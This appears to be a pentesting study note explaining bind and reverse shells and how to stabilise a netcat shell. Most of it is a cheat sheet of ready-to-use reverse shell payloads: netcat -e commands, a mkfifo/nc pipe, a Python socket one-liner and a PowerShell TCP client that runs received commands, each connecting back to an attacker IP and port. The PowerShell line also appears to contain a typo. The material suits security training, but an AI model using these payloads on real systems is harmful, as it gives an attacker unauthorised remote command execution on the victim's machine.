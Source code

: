 # Shell

Shells are used to interact with CLI(get a better defination from wiki).

When attacking a remote machine we try to use the vulnerability of the service running to a get a reverse shell.

Check this [Shell vs terminal](https://www.geeksforgeeks.org/what-is-terminal-console-shell-and-kernel/#:~:text=After%20writing%20our%20commands%20on,1.&text=2.,-Checks%20the%20syntax)

There are two kinds of shells bind shells and reverse shells.

When we force the target to send a reverse connection and receive it using a listener like netcat than it is called reverse shell. Reverse shell can bypass firewall.

Eg: On attack machine run `nc -lvnp <port>` and in target machine run `nc <attack-ip> <port> -e /bin/bash`. Now you will get a reverse shell.

Bind shells means opening up a port on the target to run our commands.

Eg: On target machine run `nc -lvnp <port> -e "cmd.exe"` and in attack machine run `nc <target-ip> <port>`

Now we got the shell it is very unstable and limited. It can be upgraded using python, socat or rlwrap. Python technique is explained in commands.

For rlwrap just use it with nc like `rlwrap nc -lvnp <port>`

## Common Shell Payloads
For Linux targets
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
For windows powershell
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0$sendbyte.Length);$stream.Flush()};$client.Close()"
```
Change the ip and port and run on the target machines

[Github Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)\
[pentestmonkey Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Stabilize nc shell

After getting a reverse shell by listening on any port using `nc -lvnp <port>` We can get upgrade the shell by performing the following
1. Run `python -c 'import pty;pty.spawn("/bin/bash")'`. If this gives error like "python dont exist" use python2 or python3 instead.

Just by using this we will get a comparatively better shell. But we can't use autocomplete and arrow keys. For more stable shell

2. Run `export TERM=xterm` in reverse shell and background the process with Ctrl + Z.
3. Run `stty raw -echo; fg` in your own terminal. This will give the stable shell.

Also there is another technique using socat.
